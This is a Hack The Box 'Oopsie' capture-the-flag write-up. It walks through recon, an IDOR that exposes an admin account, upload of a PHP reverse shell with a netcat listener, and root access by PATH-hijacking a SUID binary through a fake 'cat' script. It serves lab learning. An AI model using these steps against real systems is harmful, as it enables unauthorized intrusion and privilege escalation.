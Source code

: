 # 🔓 Hack The Box — Oopsie Write-Up

> **Date Completed**: 03/07/2025  
> **Difficulty**: Easy  
> **Category**: PHP, Web, IDOR, SUID Exploitation  
> **Tags**: `IDOR`, `Reverse Shell`, `Privilege Escalation`, `SUID`, `PATH Hijacking`, `Apache`, `Custom App`, `Linux`

---

## 🏁 Overview

Oopsie is a beginner-friendly box that demonstrates how insecure object references and poor privilege separation can lead to full root access. The key vulnerabilities are an IDOR in a custom PHP app and a SUID binary that can be exploited via `PATH` hijacking.

---

## 🧪 Initial Recon

### 🔎 Nmap Scan

```bash
nmap -Pn -sV -T4 <target-ip>
Open Ports:

22/tcp - SSH

80/tcp - HTTP (Apache)

🌐 Web Recon
Visited the home page — no useful content.

Used Burp Suite and discovered /internal.

Found login page and Login as Guest option.

After enumerating parameters, discovered an IDOR vulnerability that exposed an admin account.

💥 Exploitation
🐚 Reverse Shell Upload
Uploaded php-reverse-shell.php via admin upload.

Started listener:

bash
Copy code
nc -lvnp 4444
Triggered shell:

perl
Copy code
http://<target-ip>/uploads/php-reverse-shell.php
🔄 Got a Shell, Then Upgraded
bash
Copy code
python3 -c 'import pty; pty.spawn("/bin/bash")'
🧑‍💻 Post-Exploitation
🔐 Found Credentials
Inspected PHP source code in /var/www/html/internal

Found hardcoded password

Used /etc/passwd to find valid usernames (e.g., robert)

Switched to robert using found credentials

🔼 Privilege Escalation
👥 Group Memberships
bash
Copy code
id
Output:

ini
Copy code
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
🔍 Found SUID Binary
bash
Copy code
find / -group bugtracker 2>/dev/null
Discovered: /usr/bin/bugtracker

🛠 PATH Hijacking Exploit
bash
Copy code
echo -e '#!/bin/bash\n/bin/bash' > /tmp/cat
chmod +x /tmp/cat
export PATH=/tmp:$PATH
bugtracker
✅ Got root shell because bugtracker was SUID and used cat without a full path.

🏁 Flags
User Flag: ✅

Root Flag: ✅

bash
Copy code
/bin/cat /root/root.txt
📚 Key Takeaways
IDOR vulnerabilities can be critical when combined with upload functionality.

SUID binaries are dangerous when calling system tools without full paths.

Always check group memberships and file permissions when escalating privileges.

Upload functions must sanitize and validate both file type and permissions.

📎 Resources
GTFOBins

Pentestmonkey PHP Reverse Shells

OWASP IDOR

📦 Files Collected
/var/www/html/internal/login.php (contained password)

/tmp/cat (malicious shell)

/usr/bin/bugtracker (vulnerable SUID binary
